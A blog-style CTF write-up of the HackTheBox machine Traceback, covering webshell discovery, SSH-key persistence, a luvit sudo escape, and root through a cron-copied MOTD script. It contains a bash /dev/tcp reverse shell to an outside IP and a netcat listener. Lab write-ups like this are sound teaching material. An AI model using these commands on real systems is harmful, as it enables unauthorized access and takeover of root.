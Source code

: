 ```yaml
---
title: "HackTheBox: Traceback Writeup"
date: 2020-08-15 07:00:00 +0000
categories:
  - blog
tags:
  - CTF
  - HTB
  - English
---
```


Today i'll post a writeup on the machine Traceback from HackTheBox, it's a Linux box with difficulty rating easy. 

The scenario here is that we are left with a box that has been previously hacked, to own the box we craft a specific wordlist, abuse sudo rights and finally exploiting a cronjob running as root. 

![Traceback infocard](https://jackhack.se/assets/images/traceback/traceback_info.png)
{: .full}
# Recon
~~~
# Nmap 7.80 scan initiated Mon Jun  1 15:59:06 2020 as: nmap -sC -sV -oA initial -T 5 10.10.10.181
Nmap scan report for 10.10.10.181
Host is up (0.043s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
|   256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
|_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Help us
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jun  1 15:59:21 2020 -- 1 IP address (1 host up) scanned in 15.74 seconds
~~~
{: .language-bash}
Basic nmap scan shows nothing but a webserver and open ssh-port. 
Moving on to manually inspecting the site i am presented with a defaced site telling me there is a backdoor left on the server for anyone to use.

![Website](https://jackhack.se/assets/images/traceback/website.png)
{: .full}
I'm guessing there is some type of commonly used web-shell that has been uploaded, so im heading to google to search for common web-shells, i found two GitHub [repos](https://github.com/TheBinitGhimire/Web-Shells) containing various webshells and put them into a list to use for bruteforcing. 

Now by running gobuster against the url i should be able to find the backdoor that has been left for us. 

~~~
kali@kali:~/boxes/traceback$ gobuster dir -u http://traceback.htb/ -w shells.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://traceback.htb/
[+] Threads:        10
[+] Wordlist:       shells.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/08/12 04:29:14 Starting gobuster
===============================================================
/smevk.php (Status: 200)
===============================================================
2020/08/12 04:29:15 Finished
===============================================================
~~~
{: .language-bash}

# User
After navigating to the location of **smevk.php** i am met with a login page, checking the previously github repo gives away the default credentials for this particular shell. 

![shell_pass.png](https://jackhack.se/assets/images/traceback/shell_pass.png)
{: .full}
The shell is running as user **webadmin**, so i navigated trough the shell to the users *.ssh* folder and added my ssh-key to the *authorized_keys* file, to be able to get a better shell at the machine. 

![Add SSH Key](https://jackhack.se/assets/images/traceback/addSsh.png)
{: .full}

![Initial shell](https://jackhack.se/assets/images/traceback/shell.png)
{: .full}

After connecting to the machine via ssh and noticing there is no user flag i can see there is a *note.txt* that contains some information from the **sysadmin** account

~~~
webadmin@traceback:~$ ls
note.txt
webadmin@traceback:~$ cat note.txt 
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
~~~
{: .language-bash}

One simple privilege escalation technique is to always check if your current user has any sudo permissions, and if so what you are allowed to do

~~~
webadmin@traceback:~$ sudo -l
Matching Defaults entries for webadmin on traceback:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on traceback:
    (sysadmin) NOPASSWD: /home/sysadmin/luvit
~~~
{: .language-bash}

This output tells me i can run the binary *luvit* as the user **sysadmin** without providing any password. 

Considering the note mentioning the script language lua i suspect that the binary has something to do with lua. From the [luvit blog](https://luvit.io/blog/pure-luv.html) we can read the following

>Luvit is a single binary that contains the lua vm, libuv, openssl, miniz as well as a host of standard libraries implemented in lua that closely resemble the public node.js APIs. You give it a lua script to run and it runs it in the context of this system.

I don't really have any knowledge about lua, but i tried to make a lua script that would get me a shell as **sysadmin** and then "feed it" to the luvit binary. 

~~~
webadmin@traceback:~$ echo 'os.execute("/bin/bash");' > exploit.lua
webadmin@traceback:~$ sudo -u sysadmin /home/sysadmin/luvit exploit.lua 
sysadmin@traceback:~$ cd /home/sysadmin/
sysadmin@traceback:/home/sysadmin$ cat user.txt
985618----------f3cbb719dfe06e35
sysadmin@traceback:/home/sysadmin$ 
~~~
{: .language-bash}

# Root

Moving on to root, it took me a while and i ran various privesc scripts, but after checking running processes with **ps aux** a few times, i noticed a cronjob running in root context

~~~
--snip--
root       2556  0.0  0.0  58792  3312 ?        S    02:09   0:00 /usr/sbin/CRON -f
root       2559  0.0  0.0   4628   864 ?        Ss   02:09   0:00 /bin/sh -c sleep 30 ; /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/
root       2561  0.0  0.0   7468   740 ?        S    02:09   0:00 sleep 30
root       2616  0.0  0.0      0     0 ?        I    02:09   0:00 [kworker/0:0]
sysadmin   2617  0.0  0.0  39664  3684 pts/0    R+   02:09   0:00 ps aux
~~~
{: .language-bash}

So every couple of minutes a cronjob is executed, that copies backuped *motd* files into the */etc/update-motd.d/* folder.

MOTD stands for Message Of The Day, and usally it is the message that's presented to the users while logging on to a system trough a terminal. 

So if i can modify one of the current motd files in the */etc* directory to run some type of reverse shell and execute it before the backup cronjob runs, i should be able to get a shell as root.

This is doable since the files in */etc/update-motd.d/* is owned by the group sysadmin, wich my current user is a member of. 

~~~
sysadmin@traceback:/etc/update-motd.d$ ls -la
total 32
drwxr-xr-x  2 root sysadmin 4096 Aug 27  2019 .
drwxr-xr-x 80 root root     4096 Mar 16 03:55 ..
-rwxrwxr-x  1 root sysadmin  981 Aug 12 02:08 00-header
-rwxrwxr-x  1 root sysadmin  982 Aug 12 02:08 10-help-text
-rwxrwxr-x  1 root sysadmin 4264 Aug 12 02:08 50-motd-news
-rwxrwxr-x  1 root sysadmin  604 Aug 12 02:08 80-esm
-rwxrwxr-x  1 root sysadmin  299 Aug 12 02:08 91-release-upgrade
sysadmin@traceback:/etc/update-motd.d$ 
~~~
{: .language-bash}

So i add my public ssh key to **sysadmin**'s .ssh folder, and insert a simple bash reverse shell into on of these files, set up a reverse shell *listener* and ssh into the box as sysadmin to execute the shell. 

~~~
sysadmin@traceback:/home/sysadmin$ echo "<My public ssh key>" > .ssh/authorized_keys
sysadmin@traceback:/home/sysadmin$ cd /etc/update-motd.d/
sysadmin@traceback:/etc/update-motd.d$ echo -e "'#!/bin/bash\nbash -i >& /dev/tcp/10.10.14.30/9001 0>&1' > 00-header"
~~~
{: .language-bash}

And set up the reverse listener on my kali box
~~~
kali@kali:~$ nc -lvnp 9001

listening on [any] 9001 ...
~~~
{: .language-bash}

After successfully connecting to the box as **sysadmin** my reverse shell executed and i got root on this box.

![Root](https://jackhack.se/assets/images/traceback/root.png)
{: .full}

